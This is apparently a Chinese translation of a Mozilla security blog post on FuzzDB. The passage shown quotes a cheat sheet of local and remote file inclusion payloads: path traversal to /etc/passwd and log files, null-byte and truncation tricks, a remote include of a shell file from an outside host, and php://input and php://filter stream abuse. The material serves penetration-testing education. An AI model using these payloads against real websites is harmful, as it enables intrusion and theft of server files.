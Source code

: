 ## 使用FuzzDB来测试网站安全
来源：https://blog.mozilla.org/security/2014/03/25/using-fuzzdb-for-testing-website-security/

本文重点介绍了一些艾尔·比林斯最喜欢的FuzzDB文件，并讨论了使用它们的方式。

### 渗透本地文件包含

场景：测试网站时，您会发现本地文件包含（LFI）漏洞。考虑到利用LFI错误的各种方法，FuzzDB可以帮助我们识别一些必需的信息。（此处有一个不错的备忘单：http ://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/   ）
```
Basic Local File Inclusion:

1
<?php include("inc/" . $_GET['file']); ?>
Including files in the same directory:
?file=.htaccess
Path Traversal:
?file=../../../../../../../../../var/lib/locate.db
(this file is very interesting because it lets you search the filesystem, other files)
Including injected PHP code:
?file=../../../../../../../../../var/log/apache/error.log
Tricks:
list of possible Apache dirs
include access log from file descriptor /proc/self/fd/XX
include more info from the proc file system
include email log files
include ssh auth.log
abuse avatar/image/attachment file uploads
include session files
include PHP’s temporarily uploaded files
If you additionally have a phpinfo() output, read here.
Limited Local File Inclusion:

1
<?php include("inc/" . $_GET['file'] . ".htm"); ?>
Null Byte Injection:
?file=../../../../../../../../../etc/passwd%00
(requires magic_quotes_gpc=off)
Directory Listing with Null Byte Injection:
?file=../../../../../../../../../var/www/accounts/%00
(UFS filesystem only, requires magic_quotes_gpc=off, more details here)
Path Truncation:
?file=../../../../../../../../../etc/passwd.\.\.\.\.\.\.\.\.\.\.\ …
(more details see here and here)
Dot Truncation:
?file=../../../../../../../../../etc/passwd……………. …
(Windows only, more details here)
Reverse Path Truncation:
?file=../../../../ […] ../../../../../etc/passwd
(more details here)
Basic Remote File Inclusion

1
<?php include($_GET['file']); ?>
Including Remote Code:
?file=[http|https|ftp]://websec.wordpress.com/shell.txt
(requires allow_url_fopen=On and allow_url_include=On)
Using PHP stream php://input:
?file=php://input
(specify your payload in the POST parameters, watch urlencoding, details here, requires allow_url_include=On)
Using PHP stream php://filter:
?file=php://filter/convert.base64-encode/resource=index.php
```